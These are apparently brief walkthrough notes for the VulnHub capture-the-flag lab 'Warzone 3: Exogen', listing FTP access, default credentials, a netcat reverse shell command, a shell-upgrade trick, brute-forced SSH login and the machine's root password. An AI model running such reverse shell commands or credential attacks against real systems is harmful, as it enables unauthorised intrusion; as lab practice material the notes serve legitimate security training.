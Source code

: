 - URL: https://www.vulnhub.com/entry/warzone-3-exogen,606/
- Anonymous FTP login allowed
- The default credentials for your entry are alienum@exogenesis, 
your token is sha256(username).
	- alienum
    - exogenesis
    - 6c72561d26722d88896b520da9651aa24e9ae6eca82e6c8e68af720cf21377ec
- edit /etc/hosts
- role may be "astronaut"
- create exploit
    - nc -n -lvp 5555
    - nc -e /bin/sh 192.168.0.118 5555
    - /usr/bin/script -qc /bin/bash /dev/null
- make decryptor for aliens.encrypted
- [22][ssh] host: 192.168.0.116   login: anunnaki   password: nak1nak1..
- root password: ```ufo_phosXEN```
